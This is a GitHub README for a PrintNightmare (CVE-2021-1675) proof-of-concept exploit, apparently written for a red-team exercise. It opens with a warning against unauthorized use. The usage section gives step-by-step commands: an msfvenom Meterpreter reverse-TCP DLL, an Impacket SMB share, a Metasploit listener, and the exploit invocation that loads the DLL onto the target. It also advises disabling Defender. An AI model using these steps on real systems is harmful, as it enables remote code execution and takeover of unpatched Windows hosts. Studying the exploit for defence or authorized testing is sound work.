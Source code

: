 # CNightmare - CVE-2021-1675 POC

### Warning

Obviously, this exploit has long been patched, however, I have no doubt there would still be systems around that are vulnerable to this kind of attack. Therefore, under no circumstances is this exploit to be used on a system which the individual running the exploit either does not own or does not have explicit permission to do so.

### Description

As the title suggests, this is a POC which exploits the infamous PrintNightmare vulnerability in Microsoft Windows Print Spooler service. At present, I have implemented the ability to run this on a remote host so technically it only exploits CVE-2021-1675. 

This is by no means the best POC and it was completed as part of [eversinc33](https://github.com/eversinc33) Red Team Advent of Code. 

### Compile

Easiest way would probably just be to open it up in Visual Studio and compile it that way. Alternatively, you could use GCC.

### Usage

First Create a malicious DLL file with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your-IP> LPORT=4444 -f dll -o shell.dll
```

Then move it to `/tmp/Data/`, then use **Impacket** to serve a SMB server:
```bash
sudo /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /tmp/Data/
```

Open metasploit and start a listener:
```bash
msfconsole
use exploit/mutli/handler
set lhost <your-IP>
set payload windows/x64/meterpreter/reverse_tcp
run
```

From there, you can now transfer the exploit to your target system and run it like so:
```powershell
.\CNightmare-CVE-2021-34527-POC.exe \\192.168.158.138\compdata\shell.dll 'C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL'
```
Ensure you have the actual driver path for you system, which can be found by browsing to `C:\Windows\System32\DriverStore\FileRepository\` and go from there.

NOTE: You may have to run it a few times to get a callback. Also you will likely need to turn Defender off as it will probably detect meterpreter. Defender was a bit hit and miss in my testing.

### Testing System

I pulled an image from here [tb.rg-adguard.net.](https://tb.rg-adguard.net/dump.php?seach=windows+1809&str=25&lang=en-US)